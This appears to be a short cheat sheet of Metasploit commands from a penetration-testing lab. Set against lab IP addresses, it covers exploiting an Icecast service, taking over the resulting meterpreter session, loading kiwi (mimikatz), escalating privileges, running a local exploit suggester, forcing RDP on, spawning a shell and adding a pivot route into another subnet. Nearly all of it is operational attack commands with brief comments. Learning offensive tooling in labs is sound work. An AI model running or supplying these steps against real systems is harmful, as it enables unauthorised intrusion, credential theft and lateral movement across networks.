   ```shell
  set LHOST 10.17.48.136 #set own IP as lhost

  use icecast #switch to use different module, works if the string is unique

  set RHOSTS 10.10.91.69

  exploit #run module
  #alternatively, we can do 'run -j' to run this as a job

  jobs #check jobs

  sessions #check sessions

  sessions -i 1 #interact with session 1

  #after getting shell
  ps #to check running processes

  help #view commands

  sysinfo #get info about system

  load kiwi #load new version of mimikatz

  getprivs #enable all privileges available to current user

  ipconfig #view network info of target system

  run post/windows/gather/checkvm #POST module to check if we are in VM

  run post/multi/recon/local_exploit_suggester #checks for exploits which can be run in session to elevate privileges

  run post/windows/manage/enable_rdp #try forcing rdp to be enable

  shell #spawn normal system shell

  run autoroute -h #help menu for autoroute

  run autoroute -s 172.18.1.0 -n 255.255.255.0 #add a route to the subnet

  background #backgrounds currrent session
  ```

---

